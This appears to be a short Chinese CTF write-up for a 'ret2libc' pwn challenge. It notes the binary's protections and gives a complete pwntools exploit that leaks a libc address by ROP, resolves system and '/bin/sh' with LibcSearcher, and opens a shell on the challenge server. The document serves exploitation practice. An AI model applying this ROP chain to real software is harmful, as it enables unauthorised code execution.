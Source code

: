 ```yaml
---
title: newstar2023 week2 - ret2libc
date: 2023/10/2 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`ret2libc`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

参考我的moectf2023和cbctf的wp，很常规的一题

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('node4.buuoj.cn', 29167)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400763
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'time\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x4006f1

# payload 2
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
